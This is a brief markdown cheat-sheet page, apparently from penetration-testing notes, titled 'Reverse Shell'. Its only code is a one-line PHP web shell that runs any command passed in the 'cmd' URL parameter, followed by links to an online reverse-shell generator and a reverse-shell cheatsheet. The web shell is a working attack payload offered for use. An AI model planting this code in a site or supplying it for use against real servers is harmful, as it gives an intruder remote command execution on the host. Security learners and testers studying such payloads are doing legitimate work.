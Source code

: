 # Reverse Shell

## Web shell

### PHP

```php
<?php system($_GET['cmd']); ?>
```

## Links

- [RevShells Online](https://www.revshells.com/)
- [Reverse Shell - Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
